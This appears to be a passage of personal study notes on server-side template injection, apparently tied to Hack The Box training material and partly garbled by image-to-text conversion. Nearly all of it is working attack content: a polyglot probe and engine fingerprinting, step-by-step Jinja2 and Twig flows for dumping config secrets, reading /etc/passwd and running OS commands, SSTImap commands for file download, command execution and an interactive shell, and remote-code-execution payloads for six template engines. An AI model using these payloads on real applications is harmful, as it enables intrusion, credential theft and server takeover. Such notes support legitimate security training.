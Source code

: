 ```
${{<%[%'"}}%\.
``` 
- [ ] shows the web app is vulnerable to ssti
![The image is a flowchart showing different template injection payloads and their outcomes.](https://academy.hackthebox.com/storage/modules/145/ssti/diagram.png)
- [ ] check for the server behind
- [ ]  do one to one
`if {{7*'7'}} outputs 49 its twing if it ouputs 77777 its jinja2`

## ✅ Jinja2 SSTI Exploitation Flow
- [ ] Recon: `{{ config.items() }}` (secrets, env, keys)
- [ ] Recon: `{{ self.__init__.__globals__.__builtins__ }}` (confirm builtins)
- [ ] LFI: `{{ self.__init__.__globals__.__builtins__.open('/etc/passwd').read() }}`
- [ ] RCE: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`
- [ ] Pivot: read app source/configs → creds/tokens → deeper access

## Twig SSTI Exploitation Flow
- [ ] Recon: `{{ _self }}` → confirm Twig
- [ ] LFI (if Symfony): `
- {{ "/etc/passwd"|file_excerpt(1,-1) }}`
- [ ] RCE: 
- `{{ ['id'] | filter('system') }}`
- [ ] Pivot: run other system commands, read sensitive files

2. **Scan a URL**
    
    ```bash
    python3 sstimap.py -u http://target/index.php?name=test
    ```
    
    - Detects injection point (`name` parameter).
        
    - Identifies engine (Twig in example).
        
    - Shows capabilities (RCE, file read/write, shell, etc.).
        
3. **Examples of Exploitation**
    
    - **Download a file**:
        
        ```bash
        python3 sstimap.py -u http://target/index.php?name=test -D '/etc/passwd' './passwd'
        ```
        
    - **Execute a system command**:
        
        ```bash
        python3 sstimap.py -u http://target/index.php?name=test -S id
        ```
        
        → Returns `uid=33(www-data) gid=33(www-data)`
        
    - **Interactive shell**:
        
        ```bash
        python3 sstimap.py -u http://target/index.php?name=test --os-shell
        ```
        
        → Lets you run `whoami`, `id`, etc.
### Exploiting SSTI by Templating Engine:

#### Jinja2 (Python)

```jinja
{{config.items()[4][1].__class__.__init__.__globals__['os'].popen('id').read()}}
```

#### Twig (PHP)

```twig
{{system('id')}}
```

#### Freemarker (Java)

```java
${new java.lang.ProcessBuilder("id").start()}
```

#### Velocity (Java)

```velocity
#set($e="e")#set($x=$e.class.forName("java.lang.Runtime").getRuntime().exec("id"))$x
```

#### Smarty (PHP)

```smarty
{${system('id')}}
```

#### Handlebars (JavaScript)

```handlebars
{{this.constructor.constructor('return process.mainModule.require("child_process").execSync("id").toString()')()}}
```

### Blind SSTI:

- **Timing-based detection**:
    
    ```jinja
    {{ ''.__class__.__mro__[1].__subclasses__() }}
    ```
    
- **Out-of-Band SSTI Detection** (e.g., Burp Collaborator, interacting with external DNS services)